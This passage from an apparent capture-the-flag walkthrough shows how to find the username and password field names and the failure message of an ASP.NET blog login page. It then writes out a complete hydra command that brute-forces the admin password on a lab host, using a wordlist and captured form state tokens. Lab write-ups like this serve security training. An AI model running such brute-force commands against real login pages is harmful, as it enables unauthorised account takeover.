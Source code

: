 Where the name of the username field is `ctl00%24MainContent%24LoginUser%24UserName`

And the name of the password field is `ctl00%24MainContent%24LoginUser%24Password`

![Untitled](images/Untitled%208.png)

And forwarding the request, we can see that a login error message appears with the text `Login failed`

Now, with the gathered data we can build the hydra command:

```jsx
hydra -l admin -P /usr/share/wordlists/fasttrack.txt 10.10.243.37 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=gIM3gB3youIJgamYDSq9I8KcJ65qkTcGNG4xcUV66GCbWTe8qxBf5vazzsVkYF46UequbLwxMPB%2FnJ250OVbaWslvJVxsUgX%2FekcVU66%2BSNQLM9g2YcBDaz%2BwIFVq8MbJeAlNAlVuVBb1ENbouQ%2BCUEUXdaAqER9UJSIfeTrsVti5NnFU%2FOkeI7Le6opTMtQVLgJ51cTY%2F8d2dHOUT5TWh7lftIpTvCG4YoxkI9abb7w1UUXMjgRd3mYIOUNQDAeR3solEMZn%2B5wSBYd%2FWNkQPfJUj9T5UNz3b1zGXCXi8HxiQx%2BzADp3s6bNvz7asMk8Y0MN1cIUBVqR8wkg3k%2Bn6EyHyR34gH1aiJfUNqdJ3vuGlrt&__EVENTVALIDATION=ZV5wkfSbQ%2FJN6v0RuQGDdvbxdRQHFrlNqpv0YgcsGLcQq22scoM7bk62pimul0s5oWnrfNnH6CIgqIakaJHZLsijL7D8mrB4atQ5YwZIRBshvtBSvWryF3NIyxCFVGYBZVHq4ofIQhijtUj3gN2cD0xIxW1yOiAdbjo5zVPz%2B7%2BY3gc2&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -V
```
